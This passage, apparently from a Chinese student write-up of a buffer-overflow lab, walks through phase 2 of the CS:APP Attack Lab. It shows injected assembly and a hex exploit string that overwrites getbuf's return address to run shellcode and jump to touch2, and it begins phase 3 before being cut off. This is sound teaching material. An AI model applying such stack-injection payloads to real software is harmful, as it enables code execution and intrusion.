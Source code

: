 与phase1的区别在于要多办一件事情:跳转到touch2之前要把cookie放到寄存器%rdi中.

这件事情就需要新的指令来完成,这些指令将会被写入到buf中,并且用这些指令的起始地址覆盖栈帧中原本的返回地址.

这些指令要做的事情如下:

- 将cookie放到%rdi中
- 再次改写返回地址,使其指向touch2
- 返回

于是有:

```
sub $0x8,%rsp           # rewrite return address
movq $0x4017ec,(%rsp)   # to touch2, 没有后缀q会报错
mov $0x59b997fa,%edi    # cookie
ret                     # return to touch2
```

与攻击代码:

```
/* exploit.txt */
48 83 ec 08 48 c7 04 24 
ec 17 40 00 bf fa 97 b9 
59 c3 30 30 30 30 30 30 /* 这一段是上面的指令的编码 */
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00 /* buf的起始位置 */
0a
```

至于为什么要先把栈指针减小8,再次参考这个栈帧:

|                 ...                  |
| :----------------------------------: |
|   返回地址(8字节,地址:0x5561dca0)    |
| getbuf(即buf,40字节,地址:0x5561dc78) |

当用buf的起始位置覆盖了原本的返回地址后,getbuf调用ret指令便会将%rip(程序计数器)设为这里,之后就会执行注入到此处的攻击代码.

注意到,getbuf的ret指令同时还把%rsp的值增加了8,现在它指向...部分,修改这一部分将会破坏这段不了解的栈帧,导致不可控的结果.

所以不能把touch2的地址写到这里,而是要重复利用getbuf后的8字节的空间.

#### I.phase 3

与phase2类似,但是这次要把cookie作为字符串传递,而不是数值.具体地说就是touch3(char *sval)的参数.

在利用溢出buf修改返回地址到注入的代码(注入到buf里)后,注入的代码要做的事情:

- 将指向字符串cookie的指针放到%rdi中

- 再次改写返回地址,指向touch3

- 返回

也就是:
